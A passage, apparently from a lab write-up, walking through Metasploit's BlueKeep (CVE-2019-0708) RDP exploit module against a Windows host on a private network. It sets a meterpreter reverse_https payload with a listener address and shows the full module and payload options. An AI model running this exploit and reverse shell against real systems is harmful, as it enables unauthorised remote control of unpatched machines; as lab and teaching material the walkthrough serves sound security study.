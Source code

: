 

For the payload I decided to use reverse_https (similar to reverse_tcp but with more options):

(source: https://metasploit.help.rapid7.com/docs/working-with-payloads)

```
> set payload windows/x64/meterpreter/reverse_https
```



Then I set the necessary options as shown below:

```
> set RHOSTS 192.168.38.144
RHOSTS => 192.168.38.144
> set LHOST 10.1.1.9
LHOST => 10.1.1.9
```



Options overview:

```
> options

Module options (exploit/windows/rdp/cve_2019_0708_bluekeep_rce):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   RDP_CLIENT_IP    192.168.0.100    yes       The client IPv4 address to report during...
   RDP_CLIENT_NAME  ethdev           no        The client computer name to report durin...
   RDP_DOMAIN                        no        The client domain name to report during... 
   RDP_USER                          no        The username to report during connect...
   RHOSTS           192.168.38.144   yes       The target host(s), range CIDR identif...
   RPORT            3389             yes       The target port (TCP)


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread... 
   LHOST     10.1.1.9         yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Automatic targeting via fingerprinting
```



